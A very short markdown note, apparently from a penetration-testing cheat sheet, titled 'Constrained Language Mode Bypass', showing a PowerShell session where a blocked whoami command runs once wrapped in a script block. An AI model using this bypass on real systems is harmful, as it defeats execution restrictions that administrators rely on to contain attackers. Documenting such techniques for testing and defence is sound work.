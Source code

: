 # Constrained Language Mode Bypass

In-place functions:

```text
PS > whoami
The term 'whoami.exe' is not recognized as the name of cmdlet...
PS > &{ whoami }
megacorp\snovvcrash
```

